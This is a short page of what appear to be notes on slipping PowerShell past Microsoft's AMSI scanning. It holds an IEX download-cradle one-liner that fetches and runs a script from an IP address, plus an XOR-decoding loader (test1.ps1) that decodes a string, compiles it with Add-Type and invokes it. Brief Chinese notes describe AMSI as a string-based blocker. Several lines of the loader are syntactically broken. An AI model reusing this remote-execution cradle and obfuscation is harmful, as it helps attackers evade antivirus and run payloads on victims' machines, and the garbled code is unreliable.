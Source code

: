 ```
IEX ((new-object net.webclient).downloadstring('http://192.168.2.213.80/a'))
```


test1.ps1
```
function y171e
{
	param($z4627)
	$k58be9 = 'a57157';
	$yce74a='';
	for($i = 0;$i-lt $z4627.length;&i+2)
	{
	$vc2775[convert]::ToByte($z4627.Substring($i,2),16);
	$yce74a+=[char]($vc2775-bxor $k58be9[($i/2)%$k58be9.length]);
   }
   return $yce74a;
}

$z24c573='dasdsadsacsca-----.....0';
$z24c5732 = y171e($z24c573);
Add-Type -TypeDefinition $z24c5732;
[yba2983]::c193b();
```

test2.ps1

```

```

amsi:
微软提供的一个基于字符检测的接口 拦截带敏感字符串的powershell命令

接口：
也就是不带任何成品也不带任何正则的东西

